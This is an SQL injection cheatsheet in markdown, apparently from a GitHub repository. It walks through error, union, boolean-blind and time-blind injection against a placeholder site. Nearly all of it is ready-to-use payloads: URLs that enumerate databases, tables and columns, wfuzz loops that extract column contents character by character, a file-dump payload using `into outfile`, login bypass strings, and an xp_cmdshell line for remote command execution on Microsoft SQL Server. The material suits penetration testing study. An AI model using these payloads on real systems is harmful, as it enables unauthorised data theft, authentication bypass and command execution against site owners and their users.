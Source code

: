 #### SQL Injection Cheatsheet
This cheatsheet should NOT be conbsiderd as reference but guide to built on, some of the examples below will require modification(s) such as url encode, comments, etc. Before we contiune here is couple good to know SQL functions

```php
limit <row offset>,<number of rows>                          # display rows based on offset and number  

count(*)                                                     # display number of rows  

rand()                                                       # generate random number between 0 and 1 

floor(rand()*<number>)                                       # print out number part of random decimal number 

select(select database());                                   # double query (nested) using database() as an example 

group by <column name>                                       # summerize rows based on column name  

concat(<string1>, <string2>, ..)                             # concatenate strings such as tables, column names  

length(<string>)                                             # calculate the number of characters for given string 

substr(<string>,<offset>,<characters length>)                # print string character(s) by providing offset and length 

ascii(<character>)                                           # decimal representation of the character 

sleep(<number of seconds>)                                   # go to sleep for <number of seconds>

if(<condition>,<true action>,<false action>)                 # conditional if statement 

like "<string>%"                                             # checks if provided string present

outfile "<url to file>"                                      # dump output of select statement into a file

load_file("<url to file>")                                   # dump the content of file
```
Now comes the fun part, here's combination of error, union, blind SQL command injection examples.

Determine back-end query number of columns with error-based string SQL command injection
```php
http://meh.com/index.php?id=1 order by <number>
```

Determine back-end query number of columns by observing `http response size` with `wfuzz` in error-based integer SQL command injection
```php
wfuzz -c -z range,1-10 "http://meh.com/index.php?id=1 order by FUZZ"
```

Identify webpage printable union columns by providing false value to back-end query with error-based integer SQL command injection. This injection depends on number of columns identified by `order by` clause
```php
http://meh.com/index.php?id=-1 union select <number of columns seperated by comma>
```

Dump the content of table into the filesystem
```php
http://meh.com/index.php?id=-1')) union select <column1>,<column2> from <table name> into outfile "<url to file>" --+
```

Print back-end SQL version with error-based integer SQL command injection, assuming column 3 content gets diplayed on webpage
```php
http://meh.com/index.php?id=-1 union select 1,2,@@version,4,...
```

Print user running the query to access back-end database server with error-based integer SQL command injection
```php
http://meh.com/index.php?id=-1 union select 1,2,user(),4,...
```

Print database name with error-based integer SQL command injection
```php
http://meh.com/index.php?id=-1 union select 1,2,database(),4,...
```

Print database directory with error-based integer SQL command injection
```php
http://meh.com/index.php?id=-1 union select 1,2,@@datadir,4,...
```

Print table names with error-based integer SQL command injection
```php
http://meh.com/index.php?id=-1 union select 1,2,group_concat(table_name),4,... from information_schema.tables where table_schema=database()
```

Print column names with error-based integer SQL command injection
```php
http://meh.com/index.php?id=-1 union select 1,2,group_concat(column_name),4,... from information_schema.columns where table_name='<table name>'
```

Print content of column with error-based integer SQL command injection 
```php
http://meh.com/index.php?id=-1 union select 1,2,group_concat(<column name>),4,... from <table name>
```

Use `and` statement as substitute to reqular comments such as `--+`, `#`, and `/* */` with error-based string SQL command injection
```php
http://meh.com/index.php?id=1' <sqli here> and '1
```
Determine databsae name with boolean-based blind SQL injection with `substr()`
```php
http://meh.com/index.php?id=1' and (substr(database(),<offset>,<character length>))='<character>' --+
```

Determine databsae name with boolean-based blind SQL injection by observing `http response size` with combination of `substr()` and `wfuzz`, assuming database name does not include special characters
```php
for i in $(seq 1 10); do wfuzz -c -z list,a-b-c-d-e-f-g-h-i-j-k-l-m-n-o-p-q-r-s-t-u-v-w-x-y-z --hw=<word count> "http://meh.com/index.php?id=1' and (substr(database(),$i,1))='FUZZ' --+";done 
```
Determine databsae name with boolean-based blind SQL injection by observing `http response size` with `substr()`, `ascii()` and `wfuzz`. The below range is the standard ASCII characters (32-127) 
```php
for i in $(seq 1 10); do wfuzz -c -z range,32-127 --hw=<word count> "http://meh.com/index.php?id=1' and (ascii(substr(database(),$i,1)))=FUZZ --+";done 
```

Determine table name with boolean-based blind SQL injection by observing `http response size` with `substr()`, `ascii()`, and `wfuzz`.The below range is the standard ASCII characters (32-127) 
```php
for i in $(seq 1 10); do wfuzz -c -z range,32-127 --hw=<word count> "http://meh.com/index.php?id=1' and (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),$i,1)))=FUZZ --+";done # increment limit first argument by 1 to get the next available table name 
```

Determine column name with boolean blind-based SQL injection by observing `http response size` with `substr()`, `ascii()`, and `wfuzz`. The below range is the standard ASCII characters (32-127) 
```php
for i in $(seq 1 10); do wfuzz -c -z range,32-127 --hw=<word count> "http://meh.com/index.php?id=1' and (ascii(substr((select column_name from information_schema.columns where table_name=<table name> limit 0,1),$i,1)))=FUZZ --+";done # increment limit first argument by 1 to get the next available column name 
```
Boolean-based blind SQL command injection demo

![alt text](https://j.gifs.com/W77p8o.gif)

Confirm time-based blind SQL injection using `sleep()` function
```php
http://meh.com/index.php?id=1' and sleep(10) --+
```

Determine database version with time-based blind SQL injection using `sleep()`, `like""`, and conditional `if`, assuming the back-end database is running version 5
```php
http://meh.com/index.php?id=1' and if((select version()) like "5%", sleep(10), null) --+
```

Determine database name with time-based blind SQL injection by observing `http response time` with `substr()`, `ascii()`, and `wfuzz`.The below range is the standard ASCII characters (32-127)
```php
for i in $(seq 1 10); do wfuzz -v -c -z range,32-127 "http://meh.com/index.php?id=1' and if((ascii(substr(database(),$i,1)))=FUZZ, sleep(10), null) --+";done > <filename.txt> && grep "0m9" <filename.txt>
```

Determine table name with time-based blind SQL injection by observing `http response time` with `substr()`, `ascii()`, `if`, and `wfuzz`.The below range is the standard ASCII characters (32-127)
```php
for i in $(seq 1 10); do wfuzz -v -c -z range,32-127 "http://meh.com/index.php?id=1' and if((select ascii(substr(table_name,$i,1))from information_schema.tables where table_schema=database() limit 0,1)=FUZZ, sleep(10), null) --+";done > <filename.txt> && grep "0m9" <filename.txt> # increment limit first argument by 1 to get the next available table name 
```
Determine column name with time-based blind SQL injection by observing `http response time` with `substr()`, `ascii()`, `if`, and `wfuzz`.The below range is the standard ASCII characters (32-127)
```php
for i in $(seq 1 10); do wfuzz -v -c -z range,32-127 "http://meh.com/index.php?id=1' and if((select ascii(substr(column_name,$i,1))from information_schema.columns where table_name='<table name>' limit 0,1)=FUZZ, sleep(10), null) --+";done > <filename.txt> && grep "0m9" <filename.txt> # increment limit first argument by 1 to get the next available column name 
```

Extract column content with time-based blind SQL injection by observing `http response time` with `substr()`, `ascii()`, `if`, and `wfuzz`.The below range is the standard ASCII characters (32-127)
```php
for i in $(seq 1 10); do wfuzz -v -c -z range,0-10 -z range,32-127 "http://meh.com/index.php?id=1' and if(ascii(substr((select <column name> from <table name> limit FUZZ,1),$i,1))=FUZ2Z, sleep(10), null) --+";done > <filename.txt> && grep "0m9" <filename.txt> # change <column name> to get the content of next column
```
Time-based blind SQL command injection with bash magic demo

![alt text](https://j.gifs.com/2vv2J1.gif)

Hope those were helpfull! Now here's couple login bypass commands that worked for me
```php
meh' OR 3=3;#
meh' OR 2=2 LIMIT 1;#
meh' OR 'a'='a
meh' OR 1=1 --+
```
Sometimes you'll run into Microsoft SQL server that have `xp_cmdshell` turned on, here's syntax for remote code execution
```php
meh' exec master..xp_cmdshell '<command here>' --
```

Final notes!
- Use your proxy of choice to bypass client-side javascript restrictions
- `order by` clause works only with regular comments such as `--+`
- Update ASCII range to include special characters if you're going after users table
- `MySQL` don't have permissions to overwrite an exsisting file, make sure you go with new filename every single time with `outfile`.
- Make sure the vulnerable paramater have false value when working with union-based SQL command injection
- It's worth noting that all of the examples in this cheatsheet where http `GET` requests, and it shouldn't be that hard to replicate them with http `POST`requests once you grasp the core concepts.
- You need to input true value to the vulnerable paramter for `and sleep()` to work, otherwise go with `or sleep()`. Here's an examplt for the sake of clarification
```php
http://meh.com/index.php?id=<true value>' and sleep(1) #
http://meh.com/index.php?id=<false value>' or sleep(1) #
```
To do list
- Python or bash script to convert ascii to text after data extraction (grep output in this case)
- Create outfile && loadfile templates

